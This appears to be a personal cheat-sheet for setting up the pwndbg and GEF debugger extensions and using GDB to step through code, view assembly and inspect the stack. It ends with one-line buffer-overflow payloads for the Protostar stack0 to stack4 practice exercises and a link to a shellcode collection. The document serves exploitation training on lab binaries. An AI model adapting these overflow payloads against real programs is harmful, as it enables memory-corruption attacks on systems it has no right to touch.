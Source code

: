 # GDB Enhancement Setup
[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef

## Follow directions from links above to setup either pwndbg/gef

## You should now have a ~/.gdbinit
[My gdbinit]: $ cat ~/.gdbinit
	#source /home/user/.gdbinit-gef.py
	source /home/user/Documents/pwndbg/gdbinit.py
+ I commented out gef and have it point to pwndbg
________________________________________________________________________
________________________________________________________________________



## Step vs Next
gdb> s
gdb> s [#]
        ^optional: number of time to times to step
     this will go to the next assembly instruction
     AND will enter into a function


gdb> n
gdb> n [#]
        ^optional: number of time to times to step
	 this will go to the next assembly instruction
	 BUT will NOT enter a function and let that function finish


________________________________________________________________________
________________________________________________________________________



## See Assembly Chunk
pwndbg> u <function>
pwndbg> u main
pwndbg> u <function> [#]
	                  ^optional: number lines of assembly

gef> cs <function>
gef> cs main
gef> cs <function> [#]
   			        ^optional: number lines of assembly


________________________________________________________________________
________________________________________________________________________



## See Stack Frame
pwndbg> telescope <register/address>
pwndbg> telescope <register/address> [#]
								         ^optional: number lines of memory


[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print('A' * 77)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step